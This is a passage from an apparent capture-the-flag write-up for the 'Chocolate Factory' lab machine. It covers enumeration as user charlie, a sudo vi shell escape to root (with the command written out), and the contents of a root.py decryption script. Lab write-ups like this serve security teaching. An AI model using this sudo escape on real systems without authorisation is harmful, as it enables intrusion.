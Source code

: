 ```
charlie@chocolate-factory:/$
```

Now that we have a foothold on the system let's do some further enumeration.

<br>

## Additional Enumeration

<br>

In his home directory I go pick up the user flag we saw earlier on the website.

I try the standard `sudo -l` and get:

```
Matching Defaults entries for charlie on chocolate-factory:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User charlie may run the following commands on chocolate-factory:
    (ALL : !root) NOPASSWD: /usr/bin/vi
```

This is definitely going to be a quick one!

<br>

## Root

<br>

We can break out of a sudo run vi and escalate to root with the following command:

`sudo vi -c ':!/bin/sh' /dev/null`

```
charlie@chocolate-factory:/home/charlie$ sudo vi -c ':!/bin/sh' /dev/null

# whoami
root
```

I head over to the **/root** directory and... wait... what? Maybe this won't be so quick. Instead of the standard **root.txt** file there is a **root.py** file.

When I try and run it I get an error message about **pyfiglet** not being installed. I search the system:

`find / -name pyfig*'

```
/usr/local/lib/python2.7/dist-packages/pyfiglet
```

Looking at the source code for **root.py** shows that it's written in **Python 3** not 2.

```
from cryptography.fernet import Fernet
import pyfiglet
key=input("Enter the key:  ")
f=Fernet(key)
encrypted_mess= 'gAAAAABfdb52eejIlEaE9ttPY8ckMMfHTIw5lamAWMy8yEdGPhnm9_H_yQikhR-bPy09-NVQn8lF_PDXyTo-T7CpmrFfoVRWzlm0OffAsUM7KIO_xbIQkQojwf_unpPAAKyJQDHNvQaJ'
dcrypt_mess=f.decrypt(encrypted_mess)
mess=dcrypt_mess.decode()
display1=pyfiglet.figlet_format("You Are Now The Owner Of ")
display2=pyfiglet.figlet_format("Chocolate Factory ")
print(display1)
print(display2)
print(mess)
```